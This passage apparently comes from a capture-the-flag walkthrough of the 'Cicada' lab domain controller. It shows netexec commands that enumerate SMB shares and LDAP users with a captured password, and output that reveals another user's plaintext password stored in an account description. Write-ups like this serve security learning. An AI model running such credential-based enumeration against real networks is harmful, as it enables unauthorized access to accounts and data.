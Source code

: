 It appears that we can login towards `SMB` and `LDAP`.

## SMB enumeration as michael.wrightson

```bash
nxc smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
```

it seems that this user has the same access as the guest user (besides NETLOGON, SYSVOL which after inspection contained nothing valuable )

```bash
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.129.180.83   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.180.83   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.180.83   445    CICADA-DC        -----           -----------     ------
SMB         10.129.180.83   445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.180.83   445    CICADA-DC        C$                              Default share
SMB         10.129.180.83   445    CICADA-DC        DEV                             
SMB         10.129.180.83   445    CICADA-DC        HR              READ            
SMB         10.129.180.83   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.180.83   445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.129.180.83   445    CICADA-DC        SYSVOL          READ            Logon server share
```

## LDAP enumeration as michael.wrightson

```bash
nxc ldap cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

Very interesting! some accounts have Description, and one of them contains a plaintext password inside for another user!

```bash
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.129.180.83   389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
LDAP        10.129.180.83   389    CICADA-DC        [*] Total records returned: 8
LDAP        10.129.180.83   389    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-                                               
LDAP        10.129.180.83   389    CICADA-DC        Administrator                 2024-08-26 20:08:03 1       Built-in account for administering the computer/domain      
LDAP        10.129.180.83   389    CICADA-DC        Guest                         2024-08-28 17:26:56 1       Built-in account for guest access to the computer/domain    
LDAP        10.129.180.83   389    CICADA-DC        krbtgt                        2024-03-14 11:14:10 1       Key Distribution Center Service Account                     
LDAP        10.129.180.83   389    CICADA-DC        john.smoulder                 2024-03-14 12:17:29 1                                                                   
LDAP        10.129.180.83   389    CICADA-DC        sarah.dantelia                2024-03-14 12:17:29 1                                                                   
LDAP        10.129.180.83   389    CICADA-DC        michael.wrightson             2024-03-14 12:17:29 0                                                                   
LDAP        10.129.180.83   389    CICADA-DC        david.orelious                2024-03-14 12:17:29 1       Just in case I forget my password is aRt$Lp#7t*VQ!3         
LDAP        10.129.180.83   389    CICADA-DC        emily.oscars                  2024-08-22 21:20:17 1 
```
